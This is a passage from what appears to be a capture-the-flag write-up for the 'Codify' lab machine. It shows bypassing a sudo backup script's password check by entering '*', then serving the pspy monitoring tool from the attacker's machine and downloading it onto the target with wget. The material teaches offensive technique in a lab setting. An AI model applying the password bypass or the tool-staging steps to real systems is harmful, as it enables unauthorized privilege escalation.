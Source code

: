 

    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 



Entering the wrong password exits the script:



    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmation failed!



However, entering "\*" (the input is not shown on the terminal because
the `-s` flag is used with `read`) bypasses the check:



    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmed!
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Backing up database: mysql
    mysqldump: [Warning] Using a password on the command line interface can be insecure.
    -- Warning: column statistics not supported by the server.
    mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
    mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
    Backing up database: sys
    mysqldump: [Warning] Using a password on the command line interface can be insecure.
    -- Warning: column statistics not supported by the server.
    All databases backed up successfully!
    Changing the permissions
    Done!



To watch for the processes, I'll upload PSpy. I'll download the [latest
release](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)
(v1.2.1 at the time of writing this post), and save it in `/opt` on my
host. Now I'll serve that directory with a Python web server:



    oxdf@hacky$ python -m http.server 80 -d /opt/
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



I'll fetch it from Codify:



    joshua@codify:/dev/shm$ wget 10.10.14.6/pspy64
    --2024-04-04 16:37:21--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’
